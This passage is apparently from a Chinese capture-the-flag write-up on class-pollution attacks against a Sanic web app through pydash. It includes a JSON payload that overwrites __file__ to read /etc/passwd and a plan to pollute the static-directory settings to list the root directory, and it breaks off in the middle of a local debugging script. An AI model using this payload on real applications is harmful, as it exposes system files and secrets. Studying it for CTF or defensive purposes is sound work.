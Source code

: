 **原型链污染1：/src**

![image-20240527211847815](https://cdn.jsdelivr.net/gh/Xh1Xxhg/Pictures@main/CTF/image-20240527211847815.png)

带session在/admin处POST传参进行污染

```py
{"key":".__init__\\\\.__globals__\\\\.__file__","value": "/etc/passwd"}
```

![image-20240527212244231](https://cdn.jsdelivr.net/gh/Xh1Xxhg/Pictures@main/CTF/image-20240527212244231.png)

访问/src，成功被污染

<img src="https://cdn.jsdelivr.net/gh/Xh1Xxhg/Pictures@main/CTF/image-20240527212427385.png" alt="image-20240527212427385" style="zoom:50%;" />

**核心原型链污染**

只要将directory污染为根目录，directory_view污染为True，就可以看到根目录的所有文件，就能找到flag文件

- 开启列目录功能
- 查看flag文件名称，污染`__file__`进行读取

```python
app.static("/static/", "./static/") # 源码可疑路由，跟进源码文件
```

![image-20240527213233281](https://cdn.jsdelivr.net/gh/Xh1Xxhg/Pictures@main/CTF/image-20240527213233281.png)

**directory_view**为true，开启列目录功能

**directory_handler**可以获取指定目录

跟进directory_handler，发现调用了Directory_handler类，源码跟进找到**上述两个目标污染对象**

![image-20240527213808534](https://cdn.jsdelivr.net/gh/Xh1Xxhg/Pictures@main/CTF/image-20240527213808534.png)

### 本地调试

需要进一步找到注册路由

sanic框架通过`app.router.name_index`获取注册路由

通过控制台打印，获取注册路由

```python
# 修改源码便于调试
from sanic import Sanic
from sanic.response import text, html
# from sanic_session import Session
import pydash
# pydash==5.1.2


class Pollute:
    def __init__(self):
        pass


app = Sanic(__name__)
app.static("/static/", "./static/")
# Session(app)


# @app.route('/', methods=['GET', 'POST'])
# async def index(request):
#     return html(open('static/index.html').read())


# @app.route("/login")
```